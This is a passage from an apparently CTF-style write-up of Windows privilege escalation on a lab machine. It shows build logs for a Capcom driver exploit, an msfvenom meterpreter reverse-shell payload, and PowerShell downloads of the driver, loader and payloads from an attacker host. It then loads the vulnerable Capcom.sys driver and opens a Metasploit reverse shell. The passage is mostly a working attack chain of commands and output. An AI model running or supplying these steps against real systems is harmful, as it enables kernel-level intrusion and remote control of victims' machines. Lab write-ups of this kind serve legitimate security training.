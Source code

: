         1>------ Build started: Project: ExploitCapcom, Configuration: Debug x64 ------
        1>stdafx.cpp
        1>ExploitCapcom.cpp
        1>ExploitCapcom.vcxproj -> C:\Users\PlayerThree\Downloads\ExploitCapcom-master\ExploitCapcom\x64\Debug\ExploitCapcom.exe
        1>ExploitCapcom.vcxproj -> C:\Users\PlayerThree\Downloads\ExploitCapcom-master\ExploitCapcom\x64\Debug\ExploitCapcom.pdb (Full PDB)
        ========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

        1>------ Build started: Project: EOPLOADDRIVER, Configuration: Debug Win32 ------
        1>EOPLOADDRIVER.cpp
        1>EOPLOADDRIVER.vcxproj -> C:\Users\PlayerThree\source\repos\EOPLOADDRIVER\Debug\EOPLOADDRIVER.exe
        ========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

   SECOND:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > msf-rev.exe
  - Upload all the files;
  -- Invoke-WebRequest -Uri "http://10.10.14.12:8080/Capcom.sys" -Outfile "Capcom.sys"
  -- Invoke-WebRequest -Uri "http://10.10.14.12:8080/EOPLOADDRIVER.exe" -Outfile "EOPLOADDRIVER.exe"
  -- Invoke-WebRequest -Uri "http://10.10.14.12:8080/msf-rev.exe" -Outfile "msf-rev.exe"
  -- Invoke-WebRequest -Uri "http://10.10.14.12:8080/p3-rev.exe" -Outfile "p3-rev.exe"

    *Evil-WinRM* PS C:\temp> dir

      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----         9/9/2020  11:45 AM          10576 Capcom.sys
      -a----         9/9/2020  11:56 AM          15360 EOPLOADDRIVER.exe
      -a----         9/9/2020  12:04 PM        1807360 msf-rev.exe
      -a----         9/9/2020  12:02 PM          73802 p3-rev.exe

    NOTE: I changed name of ExploitCapcom.exe to msf-rev.exe.


3. Execute your payload and grab root.txt

    .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
    .\msf-rev.exe

    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set lhost 10.10.14.12
    msf5 exploit(multi/handler) > set lport 4488
    msf5 exploit(multi/handler) > run

      [*] Started reverse TCP handler on 10.10.14.12:4488
      [*] Sending stage (176195 bytes) to 10.10.10.193
      [*] Meterpreter session 1 opened (10.10.14.12:4488 -> 10.10.10.193:52069) at 2020-09-09 22:46:22 +0200

      meterpreter > shell
        Process 2464 created.
        Channel 1 created.
        Microsoft Windows [Version 10.0.14393]
        (c) 2016 Microsoft Corporation. All rights reserved.
